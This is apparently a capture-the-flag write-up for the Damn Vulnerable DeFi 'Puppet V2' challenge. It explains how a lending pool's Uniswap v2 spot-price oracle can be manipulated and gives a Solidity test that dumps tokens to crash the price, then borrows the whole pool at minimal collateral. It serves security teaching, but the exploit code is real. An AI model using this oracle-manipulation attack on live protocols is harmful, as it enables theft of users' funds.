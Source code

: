 ## [Puppet V2](https://www.damnvulnerabledefi.xyz/challenges/puppet-v2/)

> The developers of the [previous pool](https://damnvulnerabledefi.xyz/challenges/puppet/) seem to have learned the lesson. And released a new version.
>
> Now they’re using a Uniswap v2 exchange as a price oracle, along with the recommended utility libraries. Shouldn’t that be enough?
>
> You start with 20 ETH and 10000 DVT tokens in balance. The pool has a million DVT tokens in balance at risk!
>
> Save all funds from the pool, depositing them into the designated recovery account.

```solidity
function _isSolved() private view {
    assertEq(token.balanceOf(address(lendingPool)), 0, "Lending pool still has tokens");
    assertEq(token.balanceOf(recovery), POOL_INITIAL_TOKEN_BALANCE, "Not enough tokens in recovery account");
}
```

### Analysis

This challenge is basically the same as the [Puppet](https://www.damnvulnerabledefi.xyz/challenges/puppet/) challenge, except for the Oracle function. However, the pool still retrieves price information from Uniswap, which we can manipulate. Therefore, we can swap all of our DVT for WETH to cause the price of DVT to plummet, and then borrow DVT from the pool with minimal collateral.

```solidity
contract PuppetV2Pool {
  // [...]
  function calculateDepositOfWETHRequired(uint256 tokenAmount) public view returns (uint256) {
    uint256 depositFactor = 3;
    return _getOracleQuote(tokenAmount) * depositFactor / 1 ether;
  }

  // Fetch the price from Uniswap v2 using the official libraries
  function _getOracleQuote(uint256 amount) private view returns (uint256) {
    (uint256 reservesWETH, uint256 reservesToken) =
        UniswapV2Library.getReserves({factory: _uniswapFactory, tokenA: address(_weth), tokenB: address(_token)});

    return UniswapV2Library.quote({amountA: amount * 10 ** 18, reserveA: reservesToken, reserveB: reservesWETH});
  }
}

```

### Solution
Full solution can be found in [PuppetV2.t.sol](./PuppetV2.t.sol#L101).
```solidity
function test_puppetV2() public checkSolvedByPlayer {
    /* function swapExactTokensForTokens(
        uint amountIn,
        uint amountOutMin,
        address[] calldata path,
        address to,
        uint deadline
        ) external returns (uint[] memory amounts);
    */
    // swap all of player's tokens for WETH
    // https://docs.uniswap.org/contracts/v2/reference/smart-contracts/router-02#swapexacttokensfortokens
    token.approve(address(uniswapV2Router), PLAYER_INITIAL_TOKEN_BALANCE);
    address[] memory path = new address[](2);
    path[0] = address(token);
    path[1] = address(weth);
    uniswapV2Router.swapExactTokensForTokens(PLAYER_INITIAL_TOKEN_BALANCE, 0, path, player, block.timestamp + 10000);

    // swap all of player's ETH for WETH
    weth.deposit{value: PLAYER_INITIAL_ETH_BALANCE}();

    // borrow all of the tokens from the pool
    weth.approve(address(lendingPool), type(uint256).max);
    lendingPool.borrow(POOL_INITIAL_TOKEN_BALANCE);
    token.transfer(recovery, POOL_INITIAL_TOKEN_BALANCE);
}
```
